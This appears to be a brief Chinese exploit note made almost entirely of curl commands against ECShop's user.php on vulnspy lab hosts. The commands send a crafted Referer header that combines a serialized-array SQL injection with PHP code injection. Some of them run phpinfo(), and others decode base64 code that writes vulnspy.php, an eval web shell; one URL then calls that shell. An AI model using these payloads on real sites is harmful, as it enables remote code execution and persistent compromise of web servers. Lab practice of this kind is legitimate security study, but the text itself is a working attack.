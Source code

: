 在终端中执行：

`curl http://***.vsplate.me/user.php -d "action=login&vulnspy=phpinfo();exit;" -H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a'`


```
curl http://***.vsplate.me/ecshop/user.php -d "action=login&vulnspy=eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;" \-H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a''
```

```
curl http://0c6c41028d7188d3896c8ed30551d1a6.n1.vsgo.cloud:12050/user.php -d "action=login&vulnspy=eval/**/(base64_decode(ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOycpOw));exit;" \-H 'Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:3:{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}45ea207d7a2b68c49582d2d22adf953a''
```

curl http://0c6c41028d7188d3896c8ed30551d1a6.n1.vsgo.cloud:12050/user.php

http://0c6c41028d7188d3896c8ed30551d1a6.n1.vsgo.cloud:12050//vulnspy.php?vulnspy=phpinfo();

curl http://0c6c41028d7188d3896c8ed30551d1a6.n1.vsgo.cloud:12050/user.php -d 'action=login&vulnspy=eval(base64_decode($_POST[d]));exit;&d=ZmlsZV9wdXRfY29udGVudHMoJ3Z1bG5zcHkucGhwJywnPD9waHAgZXZhbCgkX1JFUVVFU1RbdnVsbnNweV0pOz8%2BJyk7' \
-H 'Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:"id";s:3:"'"'"'/*";s:3:"num";s:201:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca'


curl http://0c6c41028d7188d3896c8ed30551d1a6.n1.vsgo.cloud:12050/user.php -d 'action=login&vulnspy=phpinfo();exit;' -H 'Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:3:{s:2:"id";s:3:"'"'"'/*";s:3:"num";s:201:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca'